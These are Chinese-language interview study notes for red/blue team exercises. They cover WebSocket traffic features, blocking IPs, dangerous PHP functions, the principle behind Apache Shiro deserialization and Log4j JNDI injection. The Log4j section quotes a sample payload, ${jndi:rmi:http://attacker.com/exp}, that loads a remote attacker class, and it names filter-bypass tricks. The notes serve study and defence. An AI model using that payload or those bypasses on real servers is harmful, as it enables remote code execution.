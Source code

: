```yaml
---
title: 2023 Hvv 面试笔记
articles:
   excerpt_type: html
---
```


**我觉得每年 Hvv 都很乱，真的很乱，我不知道今年会不会更乱，明年会不会比今年还乱。**

# websocket 流量特征
1. 通常是复用 80和 443 端口，在原有的http协议上生成。upgrade : websocket
2. 长链接，连接通常保持打开和空闲状态，直到客户端或服务器发送消息，客户端与服务器之间存在定时的ping-pong机制数据交互以保持连接状态
3. 客户端带有 Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w== 用于加密
4. Websocket 多用于聊天或者小包传输场景中

# IP封禁
1. 如果有防火墙等设备，推荐在防火墙上封禁IP
2. 如果内网沦陷，可上线服务器手动设置IPtbles 防火墙隔离受感染机器
3. 同时上报 IP给其他人



# 危险函数
代码执行： eval,preg_replace+/e,assert,call_user_func,call_user_func_array,create_function
文件读取
file_get_contents(),highlight_file(),fopen(),read
 file(),fread(),fgetss(), fgets(),parse_ini_file(),show_source(),file()等
命令执行
system(), exec(), shell_exec(), passthru() ,pcntl_exec(),
 popen(),proc_open()




# Sharo 反序列原理
服务器端对rememberMe中的cookie依次进行base64解密、AES解密和反序列化得到cookie的值对用户进行认证。
rememberMe 可以被构造，将恶意代码放入 rememberMe，服务器端解析后就会触发Java反序列化漏洞，进而在目标机器上执行任意命令。
漏洞原理：
1. shiro550 硬编码的key
2. shiro-721 用户通过 Padding Oracle 攻击生成的攻击代码构造恶意的rememberMe字段，造成任意代码执行，原理：服务端回显，反映解密成功与否。服务器的回显总归是有些危险的，我们可以以回显差异来判断我们的输入是否正确，这也是padding oracle攻击的利用点
防御：
升级
限制rememberMe字段长度

# log4j
出网协议 rmi、ldap，
对 JNDI 出网协议解析不正确，攻击者在服务器中构造恶意Class 文件，在日志中如果有 JNDI 解析触发错误，如${jndi:rmi:http://attacker.com/exp} 下载攻击者class并实例化执行
绕过：
希腊文字，UPPER，LOWER 等
